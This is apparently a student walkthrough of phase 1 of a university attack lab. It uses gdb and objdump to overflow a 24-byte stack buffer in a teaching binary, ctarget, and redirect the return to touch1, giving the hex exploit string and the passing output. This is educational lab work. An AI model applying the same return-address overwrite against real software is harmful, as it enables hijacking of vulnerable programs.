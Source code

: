 Phase 1 is the easiest of the 5. What you are trying to do is overflow the stack with the exploit string and change the return address of 
getbuf function to the address of touch1 function. You are trying to call the function touch1.

run ctarget executable in gdb and set a breakpoint at getbuf

`b getbuf`

Then disasemble the getbuf function

`disas`

Since the buffer size is a run time constant, we need to look at the disasembled code to figure it out.

```
Dump of assembler code for function getbuf:
=> 0x0000000000401748 <+0>:	    sub    $0x18,%rsp
   0x000000000040174c <+4>:	    mov    %rsp,%rdi
   0x000000000040174f <+7>:	    callq  0x40198a <Gets>
   0x0000000000401754 <+12>:	    mov    $0x1,%eax
   0x0000000000401759 <+17>:	    add    $0x18,%rsp
   0x000000000040175d <+21>:	    retq   
End of assembler dump.
```

If you look at `sub    $0x18,%rsp`, you can see that 24 (0x18) bytes of buffer is allocated for getbuf.

Now you know the buffer size and you need to input 24 bytes of padding followed by the return address of the touch1 address.

To find the address the touch1, you need to get the dissasembled code for ctarget executable.

`objdump -d rtarget > rtarget_dump.txt`

The above command will save the dissasembled code in file rtarget_dump.txt open that file and find the touch1 function.

I found touch1 inside rtarget which looked like

```
0000000000401760 <touch1>:
  401760:	48 83 ec 08          	sub    $0x8,%rsp
  401764:	c7 05 0e 31 20 00 01 	movl   $0x1,0x20310e(%rip)        # 60487c <vlevel>
  40176b:	00 00 00 
  40176e:	bf 78 30 40 00       	mov    $0x403078,%edi
  401773:	e8 98 f4 ff ff       	callq  400c10 <puts@plt>
  401778:	bf 01 00 00 00       	mov    $0x1,%edi
  40177d:	e8 17 05 00 00       	callq  401c99 <validate>
  401782:	bf 00 00 00 00       	mov    $0x0,%edi
  401787:	e8 24 f6 ff ff       	callq  400db0 <exit@plt>
```

So it's address is at `0x401760`

When you write the bytes, you need to consider the byte order. My system is a little-endian so the bytes go in reverse order.

Finally create a text file named phase1.txt which will look like below
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* the first 24 bytes are just padding */
60 17 40 00 00 00 00 00 /* address of touch1 */
```

Now you need to take this file and run it through the program hex2raw, which will generate raw exploit strings

`./hex2raw < phase1.txt > raw-phase1.txt`

Finally, you run the raw file

`./ctarget < raw-phase1.txt`

You will get something like below if your solution is right.

```
Cookie: 0x434b4b70 //your cookie will be different
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```
